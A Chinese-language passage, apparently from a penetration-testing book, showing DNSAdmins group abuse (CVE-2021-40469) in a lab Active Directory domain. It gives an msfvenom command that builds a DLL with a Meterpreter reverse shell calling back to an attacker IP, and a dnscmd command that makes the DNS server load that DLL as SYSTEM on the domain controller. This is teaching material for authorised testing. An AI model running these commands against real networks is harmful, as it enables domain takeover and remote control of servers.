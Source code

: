 下一个示例将演示如何仅通过成为*DNSAdmins*安全组的成员，实现在域控制器上以`SYSTEM`身份执行远程代码。

## DNSAdmins 滥用（CVE-2021-40469）

如果攻击者是*DNSAdmins*组的成员，则可以触发 DNS 服务器加载我们选择的 DLL 并在`SYSTEM`上下文下执行它。DLL 的路径在`ServerLevelPluginDll`值中提供，也可以是 UNC 路径。

注意

本发现的作者博客文章可以在这里找到：`medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83`。

为了演示这个技巧，我将把 jon.snow 用户添加到`north.sevenkingdoms.local`域的 DNSAdmins 组中。我们的利用路径是生成带有反向 Shell 的 DLL，并将其放置在`castelblack`服务器的`Public`共享文件夹中。然后，添加插件，等待 DNS 服务器重启，并在我们的 Kali 机器上获取反向 Shell：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=443 -f dll > legit.dll
dnscmd.exe winterfell /Config /ServerLevelPluginDll \\castelblack\public\legit.dll
```

在 DNS 服务器重启后，我们获得了以`SYSTEM`身份在域控制器上执行的反向 Shell：

![图 6.28 – 成功利用 CVE-2021-40469，在域控制器上获得反向 Shell 并以 SYSTEM 身份执行](img/B18964_06_28.jpg)
